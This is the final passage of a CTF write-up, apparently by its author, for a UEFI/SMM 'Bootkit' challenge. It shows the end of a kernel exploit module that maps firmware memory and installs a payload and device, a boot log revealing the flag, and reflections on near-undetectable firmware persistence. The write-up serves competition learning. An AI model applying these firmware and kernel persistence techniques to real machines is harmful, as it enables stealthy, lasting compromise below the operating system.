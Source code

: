 ```C
	*shared_pos = *shared_len = 0;

	*ppos += count;
	return count;
}

static int __init exploit_init(void)
{
	if (!RtDataPhys || !PiSmmIplPhys)
		return -EINVAL;

	RtDataVirt = ioremap(RtDataPhys, 0x2000);
	memset(RtDataVirt, 0, 0x2000);

	install_payload();
	install_cdev();

	return 0;
}
```

## Final thoughts

With that, we have the flag after a reboot:

```
+ mkdir -p /proc /dev /sys /etc /mnt
+ mount -n -t proc -o nosuid,noexec,nodev proc /proc/
+ mount -n -t devtmpfs -o mode=0755,nosuid,noexec devtmpfs /dev
+ mount -n -t sysfs -o nosuid,noexec,nodev sys /sys
+ mount -n -t tmpfs -o mode=1777 tmpfs /tmp
+ mount -t efivarfs efivarfs /sys/firmware/efi/efivars
+ mount -n -t securityfs securityfs /sys/kernel/security
+ ln -s /proc/self/fd /dev/fd
+ [[ ! -e /dev/tpm0 ]]
+ [[ ! -e /dev/vda ]]
++ dd if=/dev/vda bs=1 count=4
+ [[ LUKS == LUKS ]]
+ clevis luks unlock -d /dev/vda -n secret-disk -o --allow-discards
+ mount /dev/mapper/secret-disk /mnt
++ cat /proc/sys/kernel/run_command
+ [[ -n cat /mnt/flag ]]
+ cd /root
++ cat /proc/sys/kernel/run_command
+ exec setsid bash -lc 'cat /mnt/flag'
uiuctf{I_have_friends_everywhere:_smm_kernel_and_userspace_53fbc31c}
```

The flag is a reference to Andor, a Star Wars show that I really enjoyed. Just
like the chal description which contains some random Star Wars references.

I really enjoyed writing these chals. SMM Is Asleep is an attack vector that,
I think, few have thought of before. From that, Bootkit is combination of a
harder Lua.efi, plus a harder SMM Is Asleep, but Bootkit is hard in that it's
more like a difficult programming challenge. You know the security has already
been breached, the problem is reaching that point where you have persistence
with near-undetectability, with control over the root of trust, where you can
even fool the TPM if you want. To reach this point I learned about not just
UEFI, but also kernel, QEMU, and even TPM. It's incredibly satisfying when I
solved this chal myself.

Though, I do wish there's an actual firmware repacker that actually works :tm:
that isn't an old deprecated version of UEFITool that forces me to install QT
even though it's a command-line tool...
